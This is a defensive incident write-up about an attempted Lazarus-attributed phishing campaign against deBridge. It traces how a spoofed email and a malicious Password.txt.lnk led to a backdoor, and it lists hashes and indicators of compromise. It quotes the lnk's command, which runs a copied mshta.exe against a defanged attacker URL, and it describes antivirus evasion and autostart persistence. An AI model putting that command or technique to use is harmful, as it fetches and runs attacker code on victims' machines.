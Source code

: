 # deBridge (Attempt)

Date:: August 5, 2022

Google Docs Phishing

## Details

PSA for all teams in Web3, this campaign is likely widespread.
The attack vector was via email, with several of our team receiving a PDF file named “New Salary Adjustments” from an email address spoofing mine.
We have strict internal security policies and continuously work on improving them as well as educating the team about possible attack vectors. 
Most of the team members immediately reported the suspicious email, but one colleague downloaded and opened the file
This made us investigate the attack vector to understand how exactly it was supposed to work and what the consequences would be.
Attack won’t infect macOS users: opening this link on a Mac leads to zip archive with the normal PDF file Adjustments.pdf (md5: 15a4…39c2)
…while opening this link on Windows systems leads to an archive with password-protected pdf with the same name (md5: 0038…8bc4), and an additional file named Password.txt.lnk (md5: 2eaa…6a30)
The attack vector is as follows: user opens link from email -> downloads & opens archive -> tries to open PDF, but PDF asks for a password -> user opens password.txt.lnk and infects the whole system.
We’ve inspected password.txt.lnk and here's a brief description of its contents/actions.
LnkParse shows us that clicking the lnk file will execute a cmd.exe command.
Long story short, this command performs the following actions:
Copy C:\Windows\System32\mshta.exe -> %public%/mshta.exe
mshta.exe “https://www[.]googlesheet[.]info/NZrTnPVmtfjcSMz8n1hZZzvHQvUUEfFnIMAYliQuR+A=”
Opening the link in the browser won’t give any content, so we tried to simulate mshta.exe headers with cUrl and it worked!

### Moving deeper into the rabbit hole reveals what this script does:
    - 1. Show notepad.exe with “pdf password”: Salary2022
    - 2. Check if Antivirus processes are active (ekrn - Eset, qqpcrtp - Tencent, bdagent - BitDefender)
    - 3. If no AV processes are found: save the generated malicious file named Box.lnk into autostart folder
    - 4. Decode Base64-encoded backdoor from var lp, save it into a file with a random name

### Here is how it looks:
    - This simple script sends repetitive requests to the attacker command center (CnC) in order to receive instructions. 
    - Replacing eval with logging/echo in the code allowed us to receive malicious instructions from the CnC and analyze them without execution.
    - After a series of empty responses we were finally able to receive the next part. 
    - Fast analysis showed that received code collects A LOT of information about the PC and exports it to CnC: username, OS info, CPU info, network adapters, and running processes.
    - System is considered compromised at the moment because any code from CnC can be performed on the infected machine.
    - It’s interesting that only a few anti-virus solutions mark these files as malicious.
    - According to the Twitter thread https://mobile.twitter.com/cyberoverdrive/status/1550175620927299584 files with the same names (but different hashes) were noticed and attributed to Lazarus Group (North-Korean hackers).

### DangerousPassword / CryptoCore / CryptoMimic / APT
    - b52e3aaf1bd6e45d695db573abc886dc
    - Password.txt.lnk
    - www[.]googlesheet[.]info - overlapping infrastructure with @h2jazi's tweet as well as earlier campaigns.
    - d73e832c84c45c3faa9495b39833adb2
    - New Salary Adjustments.pdf 💸💸💸 twitter.com/h2jazi/status/…
    - More related files can be found with #DangerousPassword hashtag, old research is available here: https://threatbook.cn/ppt/The%20Nightmare%20of%20Global%20Cryptocurrency%20Companies%20-%20Demystifying%20the%20%E2%80%9CDangerousPassword%E2%80%9D%20of%20the%20APT%20Organization.pdf
    - Indicators of Compromise: CnC: www[.]googlesheet[.]info
    - New Salary Adjustments.pdf (clean): 15a42f76f41c8f4bab828160e4fd39c2
    - New Salary Adjustments.pdf (with password): 00380fcbb2af75ec177301d44d658bc4
    - password.txt.lnk: 2eaa53ccb43cd38a1f0a28abcd7f6a30

TL;DR: Never open email attachments without verifying the sender’s full email address, and have an internal protocol for how your team shares attachments!


## Links

- https://twitter.com/AlexSmirnov__/status/1555586334378676225
- https://www.bleepingcomputer.com/news/security/north-korean-hackers-target-crypto-experts-with-fake-coinbase-job-offers/
- https://www.bleepingcomputer.com/news/security/debridge-finance-crypto-platform-targeted-by-lazarus-hackers/
